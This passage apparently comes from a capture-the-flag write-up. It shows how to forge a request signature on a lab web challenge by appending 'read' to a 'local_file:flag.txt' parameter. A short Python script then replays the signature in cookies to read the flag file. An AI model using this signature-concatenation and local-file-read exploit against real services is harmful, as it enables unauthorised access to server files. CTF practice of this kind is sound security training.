 ![](/assets/images/move/2019-08-23-10-42-04.png)


### 利用genSign

```python
1./geneSign -> md5(secret_key+param="local_file:flag.txtread'+action='scan')
2./De1ta -> param = "local_file:flag.txt" & action='readscan' -> Exec()
```

```python
import requests

url = 'http://7ddeea64-4b71-4c8d-85e9-798ada53395c.node1.buuoj.cn'
param = 'local_file:flag.txt'
r = requests.get(url+'/geneSign?param='+param+'read')
sign = r.text
cookies={
    'sign': sign,
    'action': 'readscan'
}
r = requests.get(url+'/De1ta?param='+param, cookies=cookies)

print r.content
```

![](/assets/images/move/2019-08-23-10-46-16.png)








